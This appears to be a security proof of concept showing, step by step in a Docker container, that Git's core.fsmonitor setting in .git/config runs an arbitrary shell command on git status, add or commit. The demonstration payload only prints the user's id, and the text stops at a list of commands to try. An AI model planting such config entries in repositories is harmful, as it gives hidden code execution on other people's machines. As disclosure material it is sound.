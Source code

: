 Build a Docker image that contains `git` and a simple Git user configuration:

```plain
% cat Dockerfile
FROM debian:sid

RUN \
    apt-get update && \
    apt-get install -y git && \
    git config --global init.defaultBranch main && \
    git config --global user.name "Your Name" && \
    git config --global user.email "you@example.com"

% sudo -g docker docker build --tag=justinsteven/git .
[... SNIP ...]
Successfully built 63dea543bbaf
Successfully tagged justinsteven/git:latest
```

Run it:

```plain
% sudo -g docker docker run --rm -ti justinsteven/git bash

root@675cbf87ff0f:/# git --version
git version 2.32.0
```


Create a new Git repo:

```plain
root@675cbf87ff0f:/# cd $(mktemp -d)

root@675cbf87ff0f:/tmp/tmp.hLncfRcxgC# git init
Initialized empty Git repository in /tmp/tmp.hLncfRcxgC/.git/
```

Change `core.fsmonitor` so that it echoes a message to STDERR whenever it is invoked:

```plain
root@675cbf87ff0f:/tmp/tmp.hLncfRcxgC# echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">&2; false"' >> .git/config

root@675cbf87ff0f:/tmp/tmp.hLncfRcxgC# cat .git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">&2; false"
```

Run:

* `git status`
* `git add` on a file that exists
* `git add` on a file that doesn't exist
* `git commit`
